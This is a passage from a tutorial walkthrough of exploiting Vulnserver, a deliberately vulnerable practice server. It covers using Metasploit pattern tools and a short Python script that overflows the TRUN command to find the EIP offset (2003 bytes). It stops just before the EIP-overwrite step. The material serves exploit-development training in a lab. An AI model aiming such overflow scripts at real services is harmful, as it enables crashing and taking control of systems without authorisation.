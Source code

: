 So that the value in the registers can be used to find the offset of it from buffer data

To create a pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 2500
<GENERATED PATTERN>
```

Fuzzing with the created pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat find_offset.py
import socket, sys
payload=b"<GENERATED PATTERN>"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 find_offset.py
```

This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

Now, using the data from the registers we are going to locate the offset in the buffer space to reach the data

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/find-offset-reg.png">
</div>

Here we can see, our Instruction Pointer ```EIP``` has a data of ```0x386F4337```

Lets find the offset for this value by ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 386F4337
[*] Exact match at offset 2003
```

So after ```2003 bytes```, we will be overwriting the ```EIP``` using buffer space

## Overwriting Instruction Pointer

Now, we have found the offset of our ```EIP```

It's time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit

